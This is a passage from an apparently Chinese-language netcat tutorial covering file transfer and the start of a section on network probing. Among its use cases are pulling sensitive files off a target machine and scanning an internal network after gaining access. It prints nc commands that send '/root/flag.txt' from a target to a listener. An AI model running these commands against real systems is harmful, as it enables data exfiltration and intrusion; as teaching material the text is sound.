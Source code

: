 1. 取证

	当目标机器被黑客攻击之后，取证人员可以利用`nc`的文件传输功能来获取目标机器上的文件内容。避免直接在目标机器上进行操作造成取证的误差。

2. 单纯获取目标机器铭感文件

	当目标机器上有一些文件内容，无法正常下载使，可以利用`nc`进行进行文件传输。

#### 传输原理

nc中的数据传输，使用的是标准的输入、输出流，所以可以直接利用命令行来进行操作。

#### 使用方法

创建一个客户端方法：

	nc -l -p [localport] > outfile

	[root@itfd ~]# nc -l -p 4444 > outfile

创建一个客户端方法(连接服务端)：

	nc [remote_addr] [remoteport] < infile

	root@localhost:/# nc 192.168.2.222 4444 < /root/flag.txt

	[root@itfd ~]# cat outfile 
	flag

**以上实现客户端向服务端发送文件。**


	nc -l -p [localport] < infile

	nc [remote_addr] [remoteport] > outfile

**以上实现服务端向客户端传输数据。**

#### 注意

如果此时服务段并没有准备好连接，而客户端已经使用nc进行连接，那么客户端会一直等待下去，知道连接上服务端，造成一种假死状态。

解决方法：

	nc -w3 [ip] [port]

设置等待3秒钟，超过3秒钟，客户端直接关闭等待连接。

## netcat信息探测

#### 使用场景

1. 目标内网的扫描

	当获得目标权限后，如果目标没有任何途径可以对内网进行探测，但此时刚好具有一个netcat的话，就可以使用netcat进行内网ip和端口的扫描。

2. 单纯对某个目标进行端口探测

	当手头没有任何探测工具可以使用netcat进行端口探测。

3. 对目标的服务banner进行抓取
